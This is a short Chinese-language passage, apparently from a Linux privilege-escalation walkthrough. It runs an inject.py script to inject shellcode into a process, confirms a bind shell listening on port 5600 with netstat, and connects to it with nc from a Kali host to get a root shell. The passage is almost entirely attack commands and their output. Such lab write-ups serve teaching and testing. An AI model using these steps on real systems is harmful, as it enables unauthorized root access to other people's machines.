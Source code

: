 执行注入，

```
saket@ubuntu:~$ /usr/bin/python2.7 ./inject.py 1311
/usr/bin/python2.7 ./inject.py 199780
Instruction Pointer: 0x0L
Injecting Shellcode at: 0x0L
Shellcode Injected!!
Final Instruction Pointer: 0x2L
```

inject.py注入成功后会在本机开启5600端口。

```
saket@ubuntu:~$ netstat -pantu | grep 5600
netstat -pantu | grep 5600
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:5600            0.0.0.0:*               LISTEN      -
```

现在通过kali连接该端口就行了

```
[root@kali ~]# nc 172.16.42.207 5600
id
uid=0(root) gid=0(root) groups=0(root)
```

提权成功。

